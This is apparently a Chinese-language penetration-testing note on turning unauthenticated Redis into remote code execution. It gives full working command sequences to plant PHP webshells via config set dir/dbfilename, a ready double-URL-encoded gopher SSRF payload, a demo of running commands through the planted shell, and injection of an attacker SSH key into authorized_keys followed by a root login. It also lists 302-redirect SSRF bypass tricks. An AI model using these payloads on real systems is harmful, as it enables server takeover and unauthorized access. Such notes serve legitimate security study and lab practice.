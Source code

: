 ### redis的RCE

三种方式：
- 写webshell（需要知道web绝对路径、web路径redis用户有权限写）
- 写入到crontab
- 将攻击者的公钥写入到authorized_key，使用攻击者的私钥ssh登录（需要开启ssh服务）


#### 说明
```
dir: 工作目录
dbfilename: 数据库的文件名
```

### redis写shell原理

设置dir工作目录，然后设置dbfilename，通过这两个步骤设置了数据库的绝对路径和文件名。后续写入的键值对就写入到这个可控的文件中（初衷是数据库文件），这里变成了攻击者的shell文件。

在redis-cli下查看这两个值：
```
127.0.0.1:6379> config get dir
1) "dir"
2) "/var/lib/redis"
127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```
然后在系统上查看这个目录和文件的权限。redis用户对这个文件具有读写权限。这个目录也是只有redis这个用户才能访问。

```
root@ubuntu:/proc# ll /var/lib/redis
total 188
drwxr-x---  2 redis redis  4096 Jan 10 22:25 ./
drwxr-xr-x 73 root  root   4096 Nov  5 22:35 ../
-rw-rw----  1 redis redis 58587 Jan 10 22:25 dump.rdb
-rw-rw----  1 redis redis 58587 Dec  9 18:46 temp-33935.rdb
-rw-rw----  1 redis redis 58587 Dec 27 17:58 temp-67951.rdb
```


### redis启动的权限问题
如果想通过redis写入webshell，而redis是以redis用户启动，apache2是以www-data用户启动，则redis用户无法写入/var/www/目录的文件。在save步骤会出错。
```
127.0.0.1:6379> set 1 "<?php @eval($_POST['cqq']);?>    "
OK
127.0.0.1:6379> save
(error) ERR
```

### redis写webshell步骤
```
127.0.0.1:6379> config set dir /var/www
OK
127.0.0.1:6379> config set dbfilename redis_shell4.php
OK
127.0.0.1:6379> set 1111 "    <?php system($_REQUEST['cqq']);?>   "
OK
127.0.0.1:6379> save
```

利用SSRF漏洞使用gopher协议实现，利用这个工具：
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher


修改`redis.cmd`文件中的命令，
```
flushdb
config set dir /var/html
config set dbfilename rshell2.php
set 1 '<?php phpinfo();?>'
save
quit
```
然后执行：
```
$ python2 redis-over-gopher.py
gopher://127.0.0.1:6379/_%2a%31%0d%0a%24%37%0d%0a%66%6c%75%73%68%64%62%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%33%0d%0a%64%69%72%0d%0a%24%38%0d%0a%2f%76%61%72%2f%77%77%77%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%30%0d%0a%64%62%66%69%6c%65%6e%61%6d%65%0d%0a%24%31%30%0d%0a%72%73%68%65%6c%6c%2e%70%68%70%0d%0a%2a%33%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%0d%0a%31%0d%0a%24%31%38%0d%0a%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%3f%3e%0d%0a%2a%31%0d%0a%24%34%0d%0a%73%61%76%65%0d%0a%2a%31%0d%0a%24%34%0d%0a%71%75%69%74%0d%0a
```
得到gopher协议的payload。
然后需要对这个payload再进行一次urlencode：
```
gopher://127.0.0.1:6379/_%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%37%25%30%64%25%30%61%25%36%36%25%36%63%25%37%35%25%37%33%25%36%38%25%36%34%25%36%32%25%30%64%25%30%61%25%32%61%25%33%34%25%30%64%25%30%61%25%32%34%25%33%36%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%36%34%25%36%39%25%37%32%25%30%64%25%30%61%25%32%34%25%33%38%25%30%64%25%30%61%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%30%64%25%30%61%25%32%61%25%33%34%25%30%64%25%30%61%25%32%34%25%33%36%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%31%25%33%30%25%30%64%25%30%61%25%36%34%25%36%32%25%36%36%25%36%39%25%36%63%25%36%35%25%36%65%25%36%31%25%36%64%25%36%35%25%30%64%25%30%61%25%32%34%25%33%31%25%33%30%25%30%64%25%30%61%25%37%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30%25%30%64%25%30%61%25%32%61%25%33%33%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%31%25%30%64%25%30%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%31%25%33%38%25%30%64%25%30%61%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%37%30%25%36%38%25%37%30%25%36%39%25%36%65%25%36%36%25%36%66%25%32%38%25%32%39%25%33%62%25%33%66%25%33%65%25%30%64%25%30%61%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%34%25%30%64%25%30%61%25%37%33%25%36%31%25%37%36%25%36%35%25%30%64%25%30%61%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%34%25%30%64%25%30%61%25%37%31%25%37%35%25%36%39%25%37%34%25%30%64%25%30%61
```


#### Demo
```
$ curl -i http://192.168.85.129/redis_shell4.php?cqq=ifconfig --output -
HTTP/1.1 200 OK
Date: Mon, 11 Jan 2021 08:00:12 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2538
Content-Type: text/html; charset=UTF-8

REDIS0008	redis-ver4.0.9
redis-bits󿿀򳨭eused-memÐ
                      Ϻ
                       aof-preamble~򀕄(    br-3f4328a91e7c: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:91:42:81:60  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

### 写入攻击者公钥实现rce
先生成公私钥对：
```
$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/77/.ssh/id_rsa): /home/77/.ssh/redis_id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/77/.ssh/redis_id_rsa.
Your public key has been saved in /home/77/.ssh/redis_id_rsa.pub.
The key fingerprint is:
SHA256:ostXG7ywBhLm9vwOeJYn56d6W8mEJBnzFyQXGYYXCN8 77@ubuntu130
The key's randomart image is:
+---[RSA 2048]----+
|    +..+O=       |
|     *o=o.       |
|    o +.E        |
|  o  o o         |
| o .  o.S        |
|  +..o.++.       |
| ..+B.o+++       |
|   +oB=.+        |
|    +B*+         |
+----[SHA256]-----+

$ ll /home/77/.ssh/
total 28K
drwx------  2 77 77 4.0K Jan 11 00:06 ./
-rw-------  1 77 77 1.8K Jan 11 00:06 redis_id_rsa
-rw-r--r--  1 77 77  394 Jan 11 00:06 redis_id_rsa.pub
```

然后将公钥写到authorized_key文件里，注意如果直接写入，或者前后加空格写入，是不能起效果的。需要将公钥写入到文件，然后在文件前后加上换行符。
```
# (echo -e "\n\n\n\n"; cat redis_id_rsa.pub; echo -e "\n\n\n\n") > test.pub
root@ubuntu:~/.ssh# cat test.pub |redis-cli -x set 344444
OK
```
再连接redis确认这个值是否写入了换行符：
```
$ redis-cli
127.0.0.1:6379> get 344444
"\n\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChQBXUegXtU6HK7F9MKuWDPgKNt8Y2h2FNtg14x5qeX9mRrlurytc4dNPvmpuuNZY0yDBi2QAK4Py7bfBbRWLvcFWALoRcXfPobQzRk3beWzWifVZm9iibahqOGgmfKN1DJ5/KTvEHgtGmWOLAjr2ddy5HUnwXSjb3KBgJqdsvt+eQFWHZLDSFem5oU1hni+a/5tVFhciif5AFCpq8e1F+4RrqIGtfOj4IrW3PrqCWJUI60IUgL4MjYqBIf7sctMgGO6Ezlg86Eo8bPdpUh3ygooB6FOJaWqEiB9Kd1gEUIgaj5C/5Dt3McwTzUliJ8DhZ7dw5kUt1mC9hd3oz+AzR 77@ubuntu130\n\n\n\n\n"
127.0.0.1:6379> save
OK
```
从攻击者机器向redis所在的ssh服务发起连接：
```
$ ssh root@192.168.85.129 -i ~/.ssh/redis_id_rsa
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing self-healing high availability clusters in MicroK8s.
   Simple, hardened, Kubernetes for production, from RaspberryPi to DC.

     https://microk8s.io/high-availability

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
New release '20.04.1 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

You have new mail.
Last login: Mon Jan 11 00:04:44 2021 from 192.168.85.130
root@ubuntu:~#
```


### 通过计划任务实现RCE
//TODO
> 测试了centos7和ubuntu，默认情况下redis写入计划任务反弹shell，在centos下是可以的。
由于redis写入文件会写入脏数据，ubuntu计划任务不允许有脏数据，所以ubuntu没办法通过redis写入计划任务进行操作。

参考： 
- [redis数据库在渗透中的利用](https://xz.aliyun.com/t/8018#toc-8)


### 302跳转

- 绕过IP白名单限制，
- 跳转到`http://brutelogic.com.br/poc.svg`等，转换成反射型XSS。
- 限定协议时，跳转到攻击者控制的主机，然后location：其他协议。

### 其他方式
//TODO
- redis主从复制
- 加载module
- 写入/etc/passwd 实现ssh登录

### 参考
- [利用redis写webshell](https://www.leavesongs.com/PENETRATION/write-webshell-via-redis-server.html)
- [redis 在渗透中 getshell 方法总结](https://zhuanlan.zhihu.com/p/36529010)
- [浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)
- [ssrf与gopher与redis](https://www.cnblogs.com/sijidou/p/13681845.html)
- [通过一道审计题了解SSRF](https://www.smi1e.top/%E9%80%9A%E8%BF%87%E4%B8%80%E9%81%93%E5%AE%A1%E8%AE%A1%E9%A2%98%E4%BA%86%E8%A7%A3ssrf/)
- [不请自来 | Redis 未授权访问漏洞深度利用](https://www.freebuf.com/vuls/148758.html)
- http://blog.leanote.com/post/snowming/2d9a2082c02b
